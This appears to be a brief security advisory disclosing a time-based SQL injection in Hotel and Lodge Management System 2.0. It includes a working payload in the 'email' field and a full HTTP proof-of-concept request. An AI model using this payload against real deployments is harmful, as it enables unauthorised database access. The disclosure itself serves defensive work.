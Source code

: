 HOTEL AND LODGE MANAGEMENT SYSTEM 2.0 SQLI

Disclosure date: 10/24/19

Sourcecodester Hotel and Lodge Management System 2.0 is vulnerable to unauthenticated SQL injection and can allow remote attackers to execute arbitrary SQL commands via the 'email' parameter to the edit page for Customer, Room, Currency, Room Booking Details, or Tax Details.

download:

https://www.sourcecodester.com/php/13707/hotel-and-lodge-management-system.html

Proof of Concept:

http://192.168.234.128/forgot_password.php

POST:btn_forgot=1&email=1' or sleep(5)%23

POC:
```
POST /forgot_password.php HTTP/1.1
Host: 192.168.234.128
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

btn_forgot=1&email=1' or sleep(5)%23
```

![Image text](1.jpg)
![Image text](2.jpg)
![Image text](3.jpg)

by h1tler@knownsec
email:h1tlermk6@gmail.com

